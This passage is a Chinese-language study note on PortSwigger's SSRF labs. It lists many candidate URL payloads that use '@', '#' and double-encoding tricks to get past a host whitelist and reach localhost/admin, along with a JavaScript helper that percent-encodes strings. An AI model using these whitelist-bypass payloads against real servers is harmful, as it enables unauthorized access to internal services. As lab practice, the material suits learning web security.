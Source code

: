 要注意 [encodeURIComponent](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent#description) 不會針對 `A–Z a–z 0–9 - _ . ! ~ * ' ( )` 去做 encode，所以我們可以寫一個 function 來達成

```js
function encodeSingleStringToURIComponent(str) {
  return "%" + str.charCodeAt(0).toString(16);
}
```

看來我對

- URL Encode 的機制
- IP 的不同表達方式
  還不夠了解，之後需要來補一下這方面的知識

## Lab: SSRF with whitelist-based input filter

| Dimension | Description                                                                       |
| --------- | --------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/ssrf#ssrf-with-whitelist-based-input-filters |
| Lab       | https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter          |

先嘗試

```js
encodeURIComponent(`http://localhost/admin`);
encodeURIComponent(`http://localhost/admin?fake=http://stock.weliketoshop.net`);
encodeURIComponent(
  `http://stock.weliketoshop.net:fakepassword@localhost/admin`,
);
encodeURIComponent(`http://localhost/admin#stock.weliketoshop.net`);
encodeURIComponent(`http://localhost/admin#http://stock.weliketoshop.net`);
encodeURIComponent(`http://localhost#@stock.weliketoshop.net/admin`);
encodeURIComponent(`http://stock.weliketoshop.net@localhost/admin`);
encodeURIComponent(`http://stock.weliketoshop.net.localhost/admin`);
encodeURIComponent(
  `http://stock.weliketoshop.net%2f..%2f..%2flocalhost%2fadmin`,
);
encodeURIComponent(`http://stock.weliketoshop.net%2523@localhost/admin`);
encodeURIComponent(`http://localhost%2523/admin@stock.weliketoshop.net`);
function encodeStringToURIComponent(str) {
  return str
    .split("")
    .map((char) => "%" + char.charCodeAt(0).toString(16))
    .join("");
}
encodeStringToURIComponent("http://localhost/admin");
encodeStringToURIComponent(
  `http://localhost/admin#http://stock.weliketoshop.net`,
);
encodeStringToURIComponent(
  `http://stock.weliketoshop.net:fakepassword@localhost/admin`,
);
```
